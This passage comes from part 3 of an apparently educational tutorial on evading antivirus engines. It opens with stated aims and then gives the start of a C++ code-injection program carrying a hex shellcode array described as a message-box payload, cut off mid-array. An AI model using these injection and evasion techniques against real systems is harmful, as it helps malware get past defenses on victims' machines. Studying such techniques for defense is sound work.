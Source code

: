 \newpage
\subsection{56. AV engines evasion techniques - part 3. Simple C++ example.}

﷽

![av](./images/34/2021-12-26_16-05.png){width="80%"}    

This is a third part of the tutorial and it describes an example how to bypass AV engines in simple C++ malware.   

[first part](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html)    
[second part](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html)    

In this section we will try to implement some techniques used by malicious software to execute code, hide from defenses.    

Let's take a look at example C++ source code of our malware which implement [classic code injection](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html):    

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // 64-bit meow-meow messagebox without encryption
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
```